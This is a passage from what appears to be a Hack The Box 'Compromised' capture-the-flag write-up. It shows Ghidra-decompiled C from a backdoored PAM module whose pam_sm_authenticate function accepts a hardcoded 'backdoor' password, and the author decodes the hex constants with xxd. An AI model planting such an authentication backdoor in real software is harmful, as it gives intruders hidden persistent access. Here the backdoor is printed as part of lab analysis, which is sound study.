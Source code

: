 ![](/assets/img/12-ghidra-backdoor.png)

```c
  iVar2 = pam_get_user(pamh,&name,0);
  if (iVar2 == 0) {
    if ((name != (char *)0x0) && ((*name - 0x2bU & 0xfd) != 0)) {
      iVar3 = _unix_blankpasswd(pamh,ctrl,name);
      if (iVar3 == 0) {
        prompt1 = (char *)dcgettext("Linux-PAM","Password: ",5);
        iVar2 = _unix_read_password(pamh,ctrl,(char *)0x0,prompt1,(char *)0x0,"-UN*X-PASS",&p);
        if (iVar2 == 0) {
          backdoor._0_8_ = 0x4533557e656b6c7a;
          backdoor._8_7_ = 0x2d326d3238766e;
          local_40 = 0;
          iVar2 = strcmp((char *)p,backdoor);
```

After searching for a long time and questioning whether I was in a rabbit hole, I found what I needed in the `pam_sm_authenticate` function. The c code decompiled by ghidra showed a variable named `backdoor` which stood out to me immediately.

```text
┌──(zweilos㉿kali)-[~/htb/compromised]
└─$ echo '0x4533557e656b6c7a' | xxd -r 
E3U~eklz                                                                                                        
┌──(zweilos㉿kali)-[~/htb/compromised]
└─$ echo '0x2d326d3238766e' | xxd -r
-2m28vn
```
